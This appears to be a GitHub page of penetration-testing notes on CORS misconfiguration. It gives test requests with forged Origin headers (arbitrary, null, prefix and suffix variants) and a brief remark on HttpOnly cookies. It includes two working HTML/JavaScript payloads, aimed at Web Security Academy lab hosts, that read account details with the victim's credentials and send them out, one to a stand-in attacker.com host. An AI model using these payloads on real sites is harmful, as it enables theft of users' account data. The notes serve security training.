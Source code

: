 ## **CORS Scenario**

<img width="790" height="638" alt="Screenshot From 2025-07-11 02-53-13" src="https://github.com/user-attachments/assets/20500a8a-3bf1-4a28-a68c-52e8eb761137" />


In this scenario, the attacker tricks users into visiting a malicious site `(evil.com)`. The site then attempts to retrieve sensitive information from the users’ bank accounts `(e.g., from the /account-info endpoint)` by exploiting improperly configured CORS policies.
 
### Testing for CORS vulnerability
1. Change Origin Header to arbitrary domain.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: http://example.com to Origin: https://malicious.com
```
If it response with this, that means the website is vulnerable to CORS.
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious.com
Access-Control-Allow-Credentials: true
```
**Demo Payload For Basic Case**
```javascript
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```
2. Change Origin Header to null.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```
**Demo Payload For Null Case**
```javascript
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://ac371f531f693ef3c07b84de00630017.web-security-academy.net'

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch('https://attacker.com/log?key=' + xhr.responseText)
                }
            }

            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null);
        </script>"></iframe>
    </body>
</html>
```
3. Change the origin header to one that begins with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://vulnerable-website.com.malicious.com
```
4. Change the origin header to one that ends with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious.vulnerable-website.com
```
Note: If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application. So, if you find a CORS vulnerability, try to bind it with XSS attack.

---

### Notes

**Cookie Issue**

```http
Set-Cookie: sessionid=abc123; HttpOnly; Secure; Path=/
```

* `HttpOnly` prevents JavaScript access to cookies.
* `Secure` ensures cookies are sent only over HTTPS.

In this case, we can't fetch the user's session cookie.

